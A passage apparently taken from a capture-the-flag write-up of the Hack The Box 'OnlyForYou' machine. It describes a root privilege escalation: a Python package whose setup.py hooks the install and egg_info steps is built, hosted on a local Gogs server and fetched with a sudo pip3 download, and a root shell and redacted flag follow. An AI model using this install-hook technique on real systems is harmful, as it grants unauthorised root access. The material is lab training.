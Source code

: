 ```python
    cmdclass={
        'install' : RunInstallCommand,
        'egg_info': RunEggInfoCommand
    },
)

```

We first have to install the build tools, afterwards we can build the repo

```bash
$ pip install build
$ python -m build                       
* Creating virtualenv isolated environment...
* Installing packages in isolated environment... (setuptools >= 40.8.0, wheel)
* Getting build dependencies for sdist...
...
Successfully built this_is_fine_wuzzi-0.0.1.tar.gz and this_is_fine_wuzzi-0.0.1-py3-none-any.whl
```

Our malicious tar is now located under `/dist`. We can now do the upload to tunneled local gogs instance.

![git-tar](/assets/img/htb-onlyforyou-git-tar.png)

We can now run the `sudo` command linking to the **raw** format of our tar file that is hosted on `http://127.0.0.1:3000/john/Test/raw/master/`.

```bash
john@only4you:/tmp$ sudo -u root /usr/bin/pip3 download http\://127.0.0.1\:3000/john/Test/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
Collecting http://127.0.0.1:3000/john/Test/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
  Downloading http://127.0.0.1:3000/john/Test/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
     - 2.8 kB 4.1 MB/s
  Saved ./this_is_fine_wuzzi-0.0.1.tar.gz
Successfully downloaded this-is-fine-wuzzi
john@only4you:/tmp$ bash -p
john@only4you:/tmp# cat /root/root.txt
a15**REDACTED**c5b
```